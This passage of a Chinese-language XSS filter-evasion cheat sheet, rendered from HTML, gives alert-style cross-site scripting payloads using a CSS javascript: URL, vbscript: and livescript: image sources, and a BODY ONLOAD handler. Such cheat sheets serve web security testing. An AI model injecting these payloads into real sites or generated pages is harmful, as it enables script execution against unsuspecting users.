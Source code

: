 <pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">STYLE</span>&gt;</span><span class="css"><span class="hljs-selector-tag">li</span> {<span class="hljs-attribute">list-style-image</span>: <span class="hljs-built_in">url</span>(<span class="hljs-string">"javascript:alert('XSS')"</span>);}</span><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-name">UL</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-name">LI</span>&gt;</span>XSS<span class="hljs-tag">&lt;/<span class="hljs-name">br</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t42"></a><a name="t42"></a>VBscript in an image</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">'vbscript:msgbox("XSS")'</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t43"></a><a name="t43"></a>Livescript (仅适用于老版本的Netscape)</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">"livescript:[code][/code]"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t44"></a><a name="t44"></a>BODY 标签</h2>
<p>这个方法不需要使用任何"javascript:" or "<code>&lt;SCRIPT...</code>" 的变体去实现xss攻击。Dan Crowley特别指出你可以额外的加入一个空格在等号之前("οnlοad=" != "onload ="):</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">BODY</span> <span class="hljs-attr">ONLOAD</span>=<span class="hljs-string">alert(</span>'<span class="hljs-attr">XSS</span>')&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t45"></a><a name="t45"></a>事件处理程序</h2>
<p>它可以被用于上文中的一些共性xss攻击（这是最完整的一个实时更新的在线列表）。感谢Rene Ledosquet 的更新。此外你可以参考 <a href="http://help.dottoro.com/" rel="nofollow">Dottoro Web Reference</a> 或是 <a href="http://help.dottoro.com/ljfvvdnm.php" rel="nofollow">events in JavaScript</a>.</p>